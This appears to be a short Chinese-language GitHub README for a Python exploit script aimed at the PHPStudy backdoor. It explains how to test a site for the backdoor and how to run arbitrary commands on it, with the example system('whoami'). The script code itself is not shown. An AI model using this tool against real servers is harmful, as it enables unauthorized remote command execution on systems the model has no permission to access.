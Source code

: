 # PHPStudyBackDoorExp
PHPStudy后门事件 EXP Python3 利用脚本

# 使用方法
```
python3 -m pip install requests, random, base64

有两种利用模式, 一种是单纯检测是否有漏洞, 一种是执行用户输入命令

单纯检测是否有漏洞
python3 run.py -u "http://test.com/index.php"

执行用户输入命令
python3 run.py -u "http://test.com/index.php" -c "system('whoami');"
```

# 注意
index.php 要替换为任意可访问到的php文件, 必须填写完整!
